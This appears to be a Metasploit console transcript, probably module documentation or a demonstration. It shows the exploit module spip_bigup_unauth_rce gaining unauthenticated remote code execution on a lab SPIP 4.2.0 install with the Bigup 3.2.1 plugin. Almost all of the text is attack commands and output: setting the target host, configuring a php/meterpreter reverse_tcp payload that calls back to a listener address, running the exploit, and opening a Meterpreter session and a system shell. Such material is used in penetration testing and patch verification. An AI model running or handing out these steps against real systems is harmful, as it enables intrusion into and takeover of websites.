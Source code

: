 ```bash
Interact with a module by name or index. For example info 11, use 11 or use exploit/multi/http/spip_rce_form
After interacting with a module you can manually set a TARGET with set TARGET 'Windows Command Shell'

msf6 > use 0
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(multi/http/spip_bigup_unauth_rce) > show options 

Module options (exploit/multi/http/spip_bigup_unauth_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   FORM_PAGE  Auto             yes       A page with a form.
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metas
                                         ploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Path to Spip install
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.205.141  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   PHP In-Memory



View the full module info with the info, or info -d command.

msf6 exploit(multi/http/spip_bigup_unauth_rce) > set RHOSTS http://192.168.205.211/spip/
RHOSTS => http://192.168.205.211/spip/
msf6 exploit(multi/http/spip_bigup_unauth_rce) > run

[*] Started reverse TCP handler on 192.168.205.141:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] SPIP Version detected: 4.2.0
[+] SPIP version 4.2.0 is vulnerable.
[*] Bigup plugin version detected: 3.2.1
[+] The target appears to be vulnerable. Both the detected SPIP version (4.2.0) and bigup version (3.2.1) are vulnerable.
[*] Found formulaire_action: login
[*] Found formulaire_action_args: CKNCtIY6q36vgXbnqHlnO...
[*] Preparing to send exploit payload to the target...
[*] Sending stage (40004 bytes) to 192.168.205.211
[*] Meterpreter session 1 opened (192.168.205.141:4444 -> 192.168.205.211:44672) at 2024-12-29 12:41:44 +0800

meterpreter > shell
Process 52 created.
```